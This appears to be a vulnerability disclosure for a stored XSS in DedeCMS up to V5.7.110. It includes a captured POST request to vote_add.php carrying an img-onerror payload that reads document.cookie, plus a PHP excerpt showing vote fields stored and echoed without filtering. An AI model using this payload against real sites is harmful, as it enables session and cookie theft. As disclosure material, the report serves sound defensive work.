



# [DedeCMS<=V5.7.110-Stored XSS-vote_add.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain multiple cross-site scripting (XSS) vulnerabilities at /dede/vote_add.php via the `votename` and `voteitem1`  parameters.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.105/dedecms/dede/vote_add.php

**[Vulnerability Location]:** /dede/vote_add.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.105/dedecms/dede/vote_add.php

   payload：``

   

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/vote_add.php HTTP/1.1
   Host: 192.168.0.105
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 320
   Origin: http://192.168.0.105
   Connection: close
   Referer: http://192.168.0.105/dedecms/dede/vote_add.php
   Cookie: menuitems=1_1%2C2_1%2C3_1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1691978132; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=582d3ad475d7b0e4; PHPSESSID=8608hb7v6n2rjca8r9n8onpk60; _csrf_name_9ede20a6=41362c7cd38c0125155b9cafef6fd2aa; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=d5617b42d6525a46; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Fvote_main.php
   Upgrade-Insecure-Requests: 1
   
   dopost=save&isarc=0&votename=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&starttime=2023-08-14+10%3A03%3A11&endtime=2023-09-13+10%3A03%3A11&isallow=1&view=1&spec=1&ismore=0&voteitem1=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&isenable=0&Submit=%E4%BF%9D%E5%AD%98%E6%8A%95%E7%A5%A8%E6%95%B0%E6%8D%AE
   ```

   

3. Visit http://192.168.0.105/dedecms/dede/vote_main.php

   

4. Click it, visit http://192.168.0.105/dedecms/plus/vote.php?aid=6&dopost=view

   

   

**[code analysis]:**

In /dede/vote_add.php:

```php
<?php 
//...
if($dopost=="save" && $isarc == 0)
{
    $starttime = GetMkTime($starttime);
    $endtime = GetMkTime($endtime);
    $voteitems = "";
    
    $j = 0;
    for($i=1; $i<=15; $i++)
    {
        if(!empty(${"voteitem".$i}))
        {
            $j++;
            $voteitems .= "<v:note id=\\'$j\\' count=\\'0\\'>".${"voteitem".$i}."</v:note>\r\n";
        }
    }
    $inQuery = "INSERT INTO #@__vote(votename,starttime,endtime,totalcount,ismore,votenote,isallow,view,spec,isenable)
    VALUES('$votename','$starttime','$endtime','0','$ismore','$voteitems','$isallow','$view','$spec','$isenable'); ";
    if(!$dsql->ExecuteNoneQuery($inQuery))
    {
        ShowMsg("增加投票失败，请检查数据是否非法！","-1");
        exit();
    }
    $aid = $dsql->GetLastID();
    $vt = new DedeVote($aid);
    $vote_content = $vt->GetVoteForm();
    $vote_content = preg_replace(array("#/#","#([\r\n])[\s]+#"),array("\/"," "),$vote_content);//取出内容中的空白字符并进行转义
    $vote_content = 'document.write("'.$vote_content.'");';
    
    $vote_file = DEDEDATA."/vote/vote_".$aid.".js";
    file_put_contents($vote_file, $vote_content);
    ShowMsg("成功增加一组投票！","vote_main.php");
    exit();
}
//....
```

No filtering is done on votename and voteitem.

In /plus/vote.php and /templets/plus/vote.htm, `votename` and `votenote` are echoed on the page.


